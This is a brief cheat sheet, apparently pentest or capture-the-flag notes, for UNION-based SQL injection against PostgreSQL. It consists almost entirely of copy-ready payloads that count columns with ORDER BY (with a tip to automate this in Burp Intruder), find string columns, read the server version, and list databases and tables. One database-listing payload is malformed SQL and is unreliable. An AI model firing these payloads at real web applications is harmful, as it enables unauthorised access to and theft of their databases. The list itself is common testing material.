

## 1. Find number of colums:

`' ORDER BY 1-- -`  
`' ORDER BY 2-- -`  
`' ORDER BY 3-- -`  
`' ORDER BY 4-- -`  
`' ORDER BY 5-- -`  
etc

Send to Burp Intruder for **Sniper** attack  

## 2. Find which columns support strings:

`' UNION SELECT 'a',NULL,NULL,NULL,NULL--`  
`' UNION SELECT NULL,'a',NULL,NULL,NULL--`  
`' UNION SELECT NULL,NULL,'a',NULL,NULL--`  
`' UNION SELECT NULL,NULL,NULL,'a',NULL--`  
`' UNION SELECT NULL,NULL,NULL,NULL,'a'--`  
etc

`' UNION SELECT NULL,version(),NULL,NULL,NULL--  -`

List databases  
`'UNION SELECT NULL,NULL,NULL,NULL, datname FROM pg_database--`  
`'UNION SELECT NULL, datname FROM pg_database,NULL,NULL, NULL--`
`' UNION SELECT tablename FROM pg_tables--`